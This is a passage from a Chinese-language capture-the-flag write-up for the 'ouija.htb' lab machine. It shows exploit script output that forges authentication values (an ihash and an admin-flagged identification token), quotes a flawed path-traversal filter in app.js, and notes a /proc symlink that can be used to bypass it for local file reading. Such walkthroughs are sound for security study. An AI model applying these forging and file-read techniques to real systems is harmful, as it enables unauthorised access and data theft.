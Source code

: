    ```python
               print("identification:",identification)
               break
           
       except:
           pass
   ```

5. 运行该脚本得到有效的ihash和identification

   ```
   ┌──(root㉿kali)-[/tmp]
   └─# python exploit.py
   ihash: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
   identification: NjI2Zjc0MzEzYTYyNmY3NDgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDBmODNhM2E2MTY0NmQ2OTZlM2E1NDcyNzU2NQ==
   ```

   在burpsuite中验证一下![image-20231206223112382](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072319372.png)



## 2.2 ouija.htb:3000/file/get?file= 的LFI

1. 现在有了正确的ihash和identification，来访问ouija.htb:3000/file/get测试file参数

   首先回顾一下app.js中的/file/get部分的操作,它过滤了 `../`来防止目录遍历

   ```js
   app.get("/file/get",(q,r,n) => {
       ensure_auth(q, r);
       if(!q.query.file){
           r.json({"message":"?file= i required"});
       }else{
           let file = q.query.file;
           //防止目录遍历
           if(file.startsWith("/") || file.includes('..') || file.includes("../")){
               r.json({"message":"Action not allowed"});
           }else{
               fs.readFile(file, 'utf8', (e,d)=>{
                   if(e) {
                       r.json({"message":e});
                   }else{
                       r.json({"message":d});
                   }
               });
           }
       }
   ```

   

   留意**ini.sh**中的下列语句，在当前目录下创建了一个`.config/bin/process_informations`来链接`/proc`

   ```
   ln -s /proc .config/bin/process_informations
   ```
